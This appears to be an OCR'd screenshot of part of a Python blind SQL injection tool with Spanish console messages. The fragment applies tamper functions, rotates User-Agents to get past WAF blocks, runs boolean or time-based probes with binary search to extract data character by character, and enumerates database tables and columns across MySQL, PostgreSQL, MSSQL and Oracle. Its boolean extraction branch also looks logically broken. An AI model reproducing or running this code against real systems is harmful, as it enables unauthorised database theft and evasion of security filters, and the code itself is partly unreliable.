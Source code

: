 ```
        # apply tampers
        for fn in self.tamper_funcs: payload = fn(payload)
        # build request
        headers = {'User-Agent': random.choice(self.UA_LIST)}
        if self.request_template:
            filled = self.request_template.replace('$', payload)
            method, url, headers, body = self._parse_raw(filled)
        else:
            url,method,body = f"{self.url}?{self.param}={payload}",'GET',None
        # send
        for _ in range(self.max_retries):
            r = await self.client.request(method,url,headers=headers,content=body)
            if r.status_code in (403,429) or 'waf' in r.text.lower():
                await asyncio.sleep(self.base_delay*2); headers['User-Agent']=random.choice(self.UA_LIST)
                continue
            return (r.status_code==200 and 'error' not in r.text.lower()) if self.mode=='boolean' else (r.elapsed.total_seconds()>=self.base_delay)
        return False

    async def _extract(self, concat_expr:str, max_chars:int) -> str:
        res=''
        for pos in range(1,max_chars+1):
            # binary search char
            low,high=32,126
            while low<=high:
                mid=(low+high)//2
                payload=(self.engine.boolean_payload if self.mode=='boolean' else self.engine.time_payload)(concat_expr,pos,mid,self.base_delay)
                if await self._probe(payload):
                    if self.mode=='boolean': res+=chr(mid); break
                    low=mid+1
                else: high=mid-1
            else: break
        return res

    def enumerate_tables(self) -> List[str]:
        # build expression per engine
        if self.engine.name=='mysql': expr="SELECT GROUP_CONCAT(table_name SEPARATOR ':') FROM information_schema.tables WHERE table_schema=DATABASE()"
        elif self.engine.name=='postgres': expr="SELECT STRING_AGG(table_name,':') FROM information_schema.tables WHERE table_schema=CURRENT_SCHEMA()"
        elif self.engine.name=='mssql': expr="SELECT STRING_AGG(table_name,':') FROM information_schema.tables"
        else: expr="SELECT LISTAGG(table_name,':') WITHIN GROUP(ORDER BY table_name) FROM user_tables"
        self.console.print(f"[bold]Enumerando tablas usando {self.engine.name}...[/bold]")
        data=asyncio.run(self._extract(expr, self.max_chars))
        return data.split(':') if data else []

    def enumerate_columns(self, table:str) -> List[str]:
        if self.engine.name=='mysql': expr=f"SELECT GROUP_CONCAT(column_name SEPARATOR ':') FROM information_schema.columns WHERE table_name='{table}'"
        elif self.engine.name=='postgres': expr=f"SELECT STRING_AGG(column_name,':') FROM information_schema.columns WHERE table_name='{table}'"
        elif self.engine.name=='mssql': expr=f"SELECT STRING_AGG(column_name,':') FROM information_schema.columns WHERE table_name='{table}'"
        else: expr=f"SELECT LISTAGG(column_name,':') WITHIN GROUP(ORDER BY column_name) FROM user_tab_columns WHERE table_name=UPPER('{table}')"
        self.console.print(f"[bold]Enumerando columnas de {table}...[/bold]")
        data=asyncio.run(self._extract(expr, self.max_chars))
        return data.split(':') if data else []

```